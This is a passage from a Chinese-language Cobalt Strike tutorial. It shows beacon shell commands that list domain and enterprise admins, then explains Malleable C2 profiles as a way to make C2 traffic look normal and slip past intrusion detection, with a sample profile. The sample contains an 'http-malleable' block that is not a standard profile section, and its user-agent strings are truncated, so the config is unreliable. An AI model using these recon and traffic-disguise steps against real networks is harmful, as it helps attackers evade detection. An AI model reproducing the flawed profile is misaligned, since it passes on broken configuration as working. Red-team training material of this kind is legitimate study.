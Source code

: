 查询域管理员用户: `shell net group "domain admins" /domain` 		

![image-20221011171058284](CobaltStrike的使用教程/image-20221011171058284.png)	



查询企业管理员用户列表: `shell net group "enterprise admins" /domain`

![image-20221011171333738](CobaltStrike的使用教程/image-20221011171333738.png)	



# 十、Profile文件编写

## 简介

在网络渗透测试和红队模拟攻击中，隐藏命令与控制（C2）流量的特征对于成功绕过入侵检测系统至关重要。Cobalt Strike提供了一个强大的工具——Malleable C2 profiles，用于自定义C2流量，从而使其看起来像正常的网络流量。下面我们就一起来学习如何使用和自定义这些profile



## 基础概念

1. **全局选项**：这是一些设置C2服务器的基本参数的选项，比如设置使用的SSL证书文件，设置服务器端口等。
2. **http-stager**：这部分设置用于控制使用HTTP或HTTPS协议的stager的行为。比如，可以设置User-Agent、URI、POST请求的数据格式等。
3. **http-get**：这部分设置用于控制Beacon从C2服务器获取任务时发送的HTTP GET请求的格式。
4. **http-post**：这部分设置用于控制Beacon向C2服务器发送数据时发送的HTTP POST请求的格式。
5. **metadata**：这部分设置用于控制Beacon和C2服务器交换的元数据的格式。



## 基础使用流程

### 1.创建Profile文件

首先，需要创建一个新的Malleable C2 profile文件，或者修改一个已经存在的profile文件。这个文件是一个纯文本文件，可以使用任何文本编辑器来编辑。一个基本的Profile文件结构如下：

```apl
set keystore "/root/cobaltstrike.store";

http-stager {
    set uri "/download";
    set useragent "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537";
}

http-get {
    set uri "/search";
    set useragent "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537";
}

http-post {
    set uri "/submit";
    set useragent "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537";
}

http-malleable {
    set uri "/data";
    set useragent "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537";
}
```
